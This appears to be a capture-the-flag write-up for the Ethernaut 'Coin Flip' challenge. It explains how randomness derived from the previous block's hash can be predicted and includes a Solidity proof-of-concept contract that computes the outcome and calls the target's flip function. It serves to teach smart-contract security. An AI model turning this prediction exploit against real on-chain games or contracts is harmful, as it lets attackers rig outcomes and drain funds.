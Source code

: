 # ⚙️ Challenge: Ethernaut – 03.Coin-flip

## Exploit Idea: Predictable Randomness

In this challenge, the idea is to exploit **weak randomness** based on `blockhash`.

---

## Concept Summary

We utilize the fact that:

```solidity
uint256(blockhash(block.number - 1)) / 2**255
```

...will always return either `0` or `1`, effectively leaking the most significant bit of the previous block hash — a weakness that can be exploited to predict the outcome of a coin flip.

---

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

event CoinFlipResult(bool result);

contract GetBlockNumberAndHash {

    // Return previous block number
    function getBlockNumer() public view returns (uint256) {
        return block.number - 1;
    }

    // Predict the coin flip result and call the vulnerable contract
    function getCoinFlipPredit() public returns (bool success, bytes memory data) {
        bool predit = 1 == (
            uint256(blockhash(block.number - 1)) /
            57896044618658097711785492504343953926634992332820282019728792003956564819968
        );

        // Hardcoded vulnerable contract address (deployed separately)
        address coinFlipAddress = 0xA0376e3976A6A8Cc4422B88Bb63A1E97Ed846031;

        // Use low-level call to trigger `flip(bool)` function
        (success, data) = coinFlipAddress.call(
            abi.encodeWithSignature("flip(bool)", predit)
        );

        return (success, data);
    }
}
```

---

## Notes

- `FACTOR = 2^255` is used to extract the highest bit from the 256-bit blockhash.
- The `call` method is used here to avoid needing a formal interface, ideal for quick testing.
